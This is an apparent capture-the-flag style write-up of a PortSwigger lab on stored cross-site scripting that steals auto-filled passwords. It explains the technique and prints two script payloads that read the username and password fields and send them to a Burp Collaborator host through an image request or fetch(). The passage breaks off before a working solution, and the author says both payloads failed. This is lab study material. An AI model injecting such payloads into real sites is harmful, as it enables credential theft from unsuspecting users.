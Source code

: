 ## Exploiting cross-site scripting to capture passwords

These days, many users have password managers that auto-fill their passwords. You can take advantage of this by creating a password input, reading out the auto-filled password, and sending it to your own domain. This technique avoids most of the problems associated with stealing cookies, and can even gain access to every other account where the victim has reused the same password.

The primary disadvantage of this technique is that it only works on users who have a password manager that performs password auto-fill. (Of course, if a user doesn't have a password saved you can still attempt to obtain their password through an on-site phishing attack, but it's not quite the same.)

## Lab:Exploiting cross-site scripting to capture passwords

> This lab contains a [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.

--> So i searched for `password stealing with XSS` and i found many blogs and other resources and i tried some payloads one by one, For example:

==> Payload 1:

```html
<script>
  let username = document.getElementById("username").value;
  let password = document.getElementById("password").value;
  var i = new Image();
  i.src =
    "https://y76joy2bdjb07uru2hcp3d76bxhn5c.burpcollaborator.net/?" +
    username +
    "Password:" +
    password;
</script>
```

But this gave me `undefined` values because it didn't get loaded and i was thinking that we can grab it using their id and at this point i just guessed the id of both input elements so i was not confident that it will work

After that i tried to make my own input fields with `input` tag and accessing their values using `id` which we were guessing in payload 1 and we can trigger our fetch method on `onchange` method but idk why i was not getting request back in burp collaborator

==> Payload 2:

```
<input name="username" id="username">
<input name="password" id="password" type="password" onchange="fetch('https://iwi3dirv230kweger119sxwq0h6cu1.burpcollaborator.net/?'+username.value+':'+this.value')">
```

But it didn't worked for me :/

So now let's try another payload:
